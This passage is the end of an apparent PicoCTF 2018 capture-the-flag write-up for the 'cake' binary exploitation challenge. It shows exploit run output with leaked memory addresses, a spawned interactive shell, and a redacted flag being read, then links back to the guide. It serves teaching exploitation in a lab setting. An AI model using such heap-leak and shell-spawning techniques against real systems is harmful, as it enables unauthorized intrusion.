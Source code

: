 ```
M
Making the cake......
Made cake 1.
Name>
b'\x10\xbb\xd9h\xe2\x7f\x00\x00'
Price>
140610394767978
M
In total, you have sold $33 worth of merchandise, and have 34 customers waiting.
[*] Switching to interactive mode
* [M]ake a cake.
* [W]ait for customers.
* [S]erve a customer.
* [I]nspect a cake.
* [C]lose the shop.
> Making the cake......
$ ls
cake
flag.txt
libc.so.6
xinet_startup.sh
$ cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}


**Boom**! Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue with the **LAST AND FINAL** challenge.
